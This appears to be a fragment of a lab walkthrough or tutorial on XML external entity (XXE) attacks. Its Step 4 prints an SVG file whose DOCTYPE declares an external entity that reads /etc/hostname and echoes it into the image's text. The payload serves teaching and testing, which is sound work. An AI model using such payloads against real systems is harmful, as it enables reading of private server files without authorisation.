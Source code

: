 <img src="images/image15.png" alt="third" width="500">

**Step4:**

Remove all content and add

```
<?xml version="1.0" standalone="yes"?>

<!DOCTYPE svg [

  <!ENTITY xxe SYSTEM "[file:///etc/hostname](file://etc/hostname)">

]>

<svg id="Layer_1" data-name="Layer 1" xmlns="http://www.w3.org/2000/svg" width="73.03mm" height="73.03mm">

  <text x="10" y="20">&xxe;</text>

</svg>

```

